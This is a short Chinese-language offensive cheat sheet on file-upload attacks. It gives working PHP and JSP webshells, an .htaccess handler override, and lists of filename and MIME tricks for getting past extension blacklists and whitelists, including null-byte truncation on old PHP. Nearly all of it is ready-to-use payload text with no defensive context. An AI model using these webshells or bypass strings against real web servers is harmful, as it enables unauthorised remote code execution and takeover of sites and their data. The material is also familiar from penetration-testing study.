 







## 文件上传webshell

### 基础PHP一句话木马

```php
<?php
@eval($_POST[1]);
phpinfo();
?>
<?php@eval($_POST[1]);phpinfo();?>
```

jsp

```jsp
<% if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes()); %>
```

### .htaccess

```
SetHandler application/x-httpd-php
```

### 后缀黑名单绕过

```
大小写绕过
	1.pHp 1.Php 1.PhP
点"."绕过
	1.php.
空格绕过
	1.php[空格]
综合	
	hack.Php. .

::$DATA绕过
	hack.php::$DATA

双写后缀绕过
	hack.pphphp	
```

### 后缀白名单

```
MIME绕过
对照表:	https://mime.wcode.net/zh-hans/
application/x-httpd-php
image/jpeg	.jpg .jpeg .jpe .jfif
image/gif	.gif
image/png	.png

截断前提
	php 版本 <5.3.4 才可以进行00截断
	magic_quotes_gpc = Off
GET  %00截断
	修改 save_path=../upload/shell.php%00 、 filename=a.png
POST  0x00截断
	修改 ../upload/a.php.png filename=a.png
	在php后面添加16进制00
```